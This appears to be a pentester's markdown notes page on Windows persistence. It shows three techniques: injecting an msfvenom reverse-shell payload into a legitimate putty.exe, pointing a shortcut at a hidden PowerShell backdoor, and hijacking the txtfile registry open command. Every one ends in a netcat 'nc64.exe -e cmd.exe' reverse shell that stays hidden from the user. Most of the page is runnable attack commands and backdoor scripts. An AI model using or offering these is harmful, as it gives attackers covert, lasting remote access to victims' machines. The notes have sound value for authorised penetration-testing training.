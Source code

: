 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### Executable Files
- Legit binary can be replaced with reverse shell. [Msfvenom](Msfvenom.md) can inject payload into a legit binary.
```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/reverse_reverse_tcp LHOST=localhost LPORT=<port> -b "\x00" -f exe -o putty_x.exe
```
### Shortcuts
- Changing shortcut target to our reverse shell
- Point it to a script:
```powershell
# backdoor.ps1
Start-Process -NoNewWindows "c:\tools\nc64.exe" "-e cmd.exe <IP> <PORT>"
C:\Windows\System32\calc.exe
```
- Shortcut target:
```powershell
powershell.exe -WindowStyle Hidden C:\Windows\System32\backdoor.ps1
```
### File Associations
- Registry stores key for every single file type under `HKLM\Software\Classes` which contains the ProgID.
- `ProgID` is the identified for the program that opens that file.
- Example:
```powershell
HKLM\Software\Classes\.txt -> txtfile (ProgID)
```
- `HKLM\Software\Classes` also has entry for the `txtfile` ProgID.
- Default command to run for the files is stored under `HKLM\Software\Classess\<progID>\shell\open\command`
```powershell
HKLM\Software\Classes\txtfile\shell\open\command -> %SystemRoot%\system32\notepad.exe %1
# %1 is the filename
```
- We can change this key to 
```powershell
HKLM\Software\Classes\txtfile\shell\open\command -> powershell.exe -WindowStyle Hidden C:\Windows\System32\backdoor2.ps1
```
- backdoor2.ps1
```powershell
Start-Process -NoNewWindows "c:\tools\nc64.exe" "-e cmd.exe <IP> <PORT>"
C:\Windows\System32\Notepad.exe $args[0]
```
- Opening a txt file will now trigger the reverse shell